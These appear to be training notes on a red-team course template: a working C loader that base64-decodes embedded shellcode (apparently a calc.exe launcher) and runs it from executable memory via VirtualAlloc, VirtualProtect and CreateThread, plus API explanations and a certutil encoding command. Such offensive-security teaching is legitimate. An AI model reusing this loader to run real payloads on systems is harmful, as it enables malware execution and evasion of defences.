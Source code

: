 

Code snippet
```c
/*

 Red Team Operator course code template
 payload encoding with base64

 author: reenz0h (twitter: @sektor7net)

*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <Wincrypt.h>
#pragma comment (lib, "Crypt32.lib")

unsigned char calc_payload[] = "/EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11IugEAAAAAAAAASI2NAQEAAEG6MYtvh//Vu/C1olZBuqaVvZ3/1UiDxCg8BnwKgPvgdQW7RxNyb2oAWUGJ2v/VY2FsYy5leGUA";
unsigned int calc_len = sizeof(calc_payload);


int DecodeBase64( const BYTE * src, unsigned int srcLen, char * dst, unsigned int dstLen ) {

	DWORD outLen;
	BOOL fRet;

	outLen = dstLen;
	fRet = CryptStringToBinary( (LPCSTR) src, srcLen, CRYPT_STRING_BASE64, (BYTE * )dst, &outLen, NULL, NULL);
	
	if (!fRet) outLen = 0;  // failed
	
	return( outLen );
}


int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;
	
	// Allocate new memory buffer for payload
	exec_mem = VirtualAlloc(0, calc_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("%-20s : 0x%-016p\n", "calc_payload addr", (void *)calc_payload);
	printf("%-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);

	printf("\nHit me 1st!\n");
	getchar();

	// Decode the payload back to binary form
	DecodeBase64((const BYTE *)calc_payload, calc_len, (char *) exec_mem, calc_len);
	
	// Make the buffer executable
	rv = VirtualProtect(exec_mem, calc_len, PAGE_EXECUTE_READ, &oldprotect);

	printf("\nHit me 2nd!\n");
	getchar();

	// If all good, execute!
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}

```


---

#### Key Windows API functions

Windows API provides functions to encode and decode Base64 data. Two common functions for this purpose are `CryptBinaryToString()` and `CryptStringToBinary()`, which are part of the Cryptography API.

[**_CryptStringToBinary()_**](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptstringtobinarya) converts a formatted string into an array of bytes. This function can be found in the _crypt32.dll_ library.

`CryptStringToBinary()` function has the following prototype:

```c
BOOL CryptStringToBinary(
  LPCSTR pszString,  // pointer to a string that contains the formatted string to be converted.
  DWORD  cchString,  // number of characters of the formatted string to be converted, not including the terminating NULL
  DWORD  dwFlags,    // indicates the format of the string to be converted, ex. CRYPT_STRING_BASE64, CRYPT_STRING_HEXASCII, CRYPT_STRING_BINARY, etc.
  BYTE   *pbBinary,  // pointer to a buffer that receives the returned sequence of bytes
  DWORD  *pcbBinary, // pointer to a variable which on entry contains the size of the pbBinary (in bytes). After return, it contains the number of bytes copied to the buffer
  DWORD  *pdwSkip,   // pointer to a value that receives the number of characters skipped to reach the beginning of the -----BEGIN ...----- header
  DWORD  *pdwFlags   // pointer to a value that receives the flags actually used in the conversion. Can be NULL (skipped)
);
```

 **Return value**

If the function succeeds, the return value is nonzero (`TRUE`). Otherwise, the return value is zero (`FALSE`).

**`LPCSTR` = “Long Pointer to Constant String” = `const char *`**

```c
typedef const char *LPCSTR;
```

|Part|Meaning|
|---|---|
|**LP**|"Long Pointer" (historical — just means pointer now)|
|**C**|`const` (read-only)|
|**STR**|string (specifically, an ANSI string — one byte per character)|

##### External Resources

[Base64 Encode and Decode in C](https://nachtimwald.com/2017/11/18/base64-encode-and-decode-in-c/)


---

#### Base64 Decoder Function using CryptStringToBinary

```c
int DecodeBase64( const BYTE * src, unsigned int srcLen, char * dst, unsigned int dstLen ) {

	DWORD outLen;
	BOOL fRet;

	outLen = dstLen;
	fRet = CryptStringToBinary( (LPCSTR) src, srcLen, CRYPT_STRING_BASE64, (BYTE * )dst, &outLen, NULL, NULL);
	
	if (!fRet) outLen = 0;  // failed
	
	return( outLen );
}
```

- `BYTE` on Windows is `typedef unsigned char BYTE;`
- `calc_payload` is declared `unsigned char calc_payload[] = "..."`; that is _exactly_ compatible with `BYTE[]`, so **no cast is strictly necessary** in plain C when passing `calc_payload` to a parameter of type `const BYTE *`
- The `const` part expresses intent: the function promises **not to modify** the source buffer. That’s good practice.
  
  - `VirtualAlloc` returns a `void *` (`exec_mem`). In C, a `void *` can be passed to any object pointer _without_ a cast — but many developers still cast it explicitly (e.g. `(char *)exec_mem`) to make the conversion obvious or to avoid warnings when compiling as C++.

---

#### B64 conversion

Base64 encode bin shellcode
```powershell
certutil -encode calc.bin calc.b64
```

